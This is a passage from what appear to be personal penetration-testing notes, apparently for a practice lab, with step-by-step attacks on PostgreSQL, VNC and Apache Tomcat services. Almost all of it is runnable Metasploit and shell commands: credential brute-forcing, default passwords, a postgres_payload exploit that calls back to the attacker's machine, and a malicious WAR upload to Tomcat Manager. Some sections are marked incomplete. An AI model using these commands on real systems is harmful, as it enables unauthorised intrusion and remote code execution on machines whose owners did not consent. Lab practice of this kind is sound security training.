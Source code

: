     ```bash
    psql -h $TARGET -U postgres
    ```
    ![[Pasted image 20250426131243.png]]
    
2. **Use Metasploit for PostgreSQL Exploitation**:
    
    ```bash
    msfconsole
    search PostgreSQL
    use auxiliary/scanner/postgres/postgres_login
    set RHOSTS $TARGET
    run
    ```
    
3. **Execute Code via PostgreSQL**:
    
    ```bash
    msfconsole
    use exploit/linux/postgres/postgres_payload
    set RHOSTS $TARGET
    set LHOST [your_kali_ip]
    run
    ```
    

### 4.8 VNC Exploitation (Port 5900)  (NOT COMPLETE)

1. **VNC Password Cracking**:
    
    ```bash
    msfconsole
    use auxiliary/scanner/vnc/vnc_login
    set RHOSTS $TARGET
    run
    ```
    
2. **Connect to VNC Server**:
    
    ```bash
    vncviewer $TARGET
    ```
    
    - The default VNC password is typically: `password`

### 4.9 Apache Tomcat Exploitation (Port 8180) (NOT COMPLETE)

1. **Access Tomcat Manager**:
    
    - Navigate to `http://$TARGET:8180/manager/html`
    - Default credentials: `tomcat/tomcat`
2. **Deploy Malicious WAR File using Metasploit**:
    
    ```bash
    msfconsole
    search apache tomcat
    use exploit/multi/http/tomcat_mgr_upload
    set RHOSTS $TARGET
    set RPORT 8180
    set HttpUsername tomcat
    set HttpPassword tomcat
    run
    ```
    